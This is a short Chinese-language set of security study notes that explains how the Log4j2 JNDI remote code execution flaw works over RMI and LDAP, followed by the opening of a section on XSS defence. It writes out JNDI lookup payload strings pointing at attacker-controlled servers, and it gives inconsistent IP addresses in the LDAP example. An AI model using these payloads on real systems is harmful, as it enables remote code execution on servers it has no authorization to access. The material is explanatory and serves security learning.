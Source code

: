 ![image-20230404155631427](./assets/1682046600_6441fe88511b0216164d6.jpeg)

 log4j2 远程代码执行漏洞大致过程（此处使用RMI，LDAP同理）： 假设有一个Java程序，将用户名信息到了日志中，如下

1. 攻击者发送一个HTTP请求，其用户名为`${jndi://rmi服务器地址/Exploit}`

2. 被攻击服务器发现要输出的信息中有`${}`，则其中的内容要单独处理，进一步解析是JNDI扩展内容且使用的是RMI，而后根据RMI服务器地址去请求Exploit。

3. RMI服务器返回Reference对象（用于告诉请求端所请求对象所在的类），而该Reference指定了远端 文件下载服务器上含有恶意代码的class文件。
4.  被攻击服务器通过Reference对象去请求文件下载服务器上的class文件。

5. 被攻击服务器下载恶意class文件并执行其中的恶意代码



##### LDAP

 当用户输入信息时，应用程序中的log4j2组件会将信息记录到日志中

1. 假如日志中含有该语句`${jndi:ldap:192.168.96.1:1099/exp}`
2. 被攻击服务器发现要输出的信息中有`${}`，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：`ldap:192.168.96.1:1099/exp`
3. 解析到ldap，就会去`192.168.61.129:1099`的ldap服务找名为exp的资源，如果找不到就会去http服务中找在http中找到exp之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现exp是一个.class文件，就会去执行里面的代码，从而实现注入攻击者就可以通过shell实现任意的命令执行，造成严重危害



[一文读懂面试官都在问的Log4J2漏洞 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/364311.html)



## 输出到href属性的XSS如何防御

跨站脚本攻击（Cross-Site Scripting, XSS）是一种注入攻击，其中**攻击者向可信网站注入恶意脚本，当用户访问这些网站时，恶意脚本会在用户的浏览器中执行**。XSS 攻击的目标通常是**窃取用户数据（如 Cookie、会话令牌等）**、**伪造用户操作**或**传播恶意代码**。

